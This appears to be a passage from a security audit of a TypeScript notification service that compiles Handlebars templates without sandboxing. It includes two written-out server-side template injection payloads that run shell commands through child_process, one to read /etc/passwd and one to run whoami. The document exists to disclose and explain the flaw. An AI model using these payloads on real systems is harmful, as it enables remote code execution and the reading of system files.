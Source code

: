 ```typescript

    return { title, body, emailHtml, smsText };
  } catch (error) {
    this.logger.error(`Failed to render template ${templateCode}:`, error);
    throw new Error(`Template rendering failed: ${error.message}`);
  }
}

// Line 276-292: Compiles and caches templates
private compileAndRender(
  templateString: string,
  data: Record<string, any>,
  cacheKey: string,
): string {
  let compiled = this.compiledTemplates.get(cacheKey);

  if (!compiled) {
    // Compiles without sandboxing
    compiled = Handlebars.compile(templateString);  // ⚠️ VULNERABLE
    this.compiledTemplates.set(cacheKey, compiled);
  }

  // Renders with user data
  return compiled(data);  // ⚠️ RCE possible
}
```

#### Attack Scenarios

**Scenario 1: RCE via Template Creation**
```javascript
// Attacker creates malicious template via API
POST /api/v1/templates
{
  "code": "malicious",
  "name": "Malicious Template",
  "type": "email",
  "body": "{{#with (lookup this 'constructor')}}{{#with (lookup this 'constructor')}}{{this 'return process.mainModule.require(\"child_process\").execSync(\"cat /etc/passwd\")'}}{{/with}}{{/with}}"
}

// When template is rendered, executes arbitrary code
// Reads /etc/passwd and returns to attacker
```

**Scenario 2: RCE via Data Injection**
```javascript
// If data object is not properly sanitized
const data = {
  username: "{{constructor.constructor('return process')().mainModule.require('child_process').execSync('whoami')}}"
};

// When rendered, executes 'whoami' command
```
